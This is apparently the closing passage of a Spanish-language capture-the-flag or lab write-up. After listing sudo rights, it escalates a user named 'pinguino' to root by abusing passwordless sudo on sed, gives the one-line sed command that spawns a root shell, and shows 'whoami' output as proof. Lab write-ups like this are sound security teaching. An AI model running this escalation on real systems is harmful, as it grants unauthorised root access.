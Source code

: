 ###### Usuario `[ Pinguino ]`:
Listando los permisos para este usuario tenemos:
```bash
sudo -l

User pinguino may run the following commands on d11a25fcd716:
    (ALL) NOPASSWD: /usr/bin/sed
```

Explotamos el privilegio
```bash
# Comando para escalar al usuario: ( root )
sudo /usr/bin/sed -n '1e exec sh 1>&0' /etc/hosts
```

---

## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
root@d11a25fcd716:/var/mail# whoami
root
```

---

## Lecciones Aprendidas
1. Aprendimos a enviar archivos atraves del binario **base64**
2. Aprendimos a explotar el binario de **sed**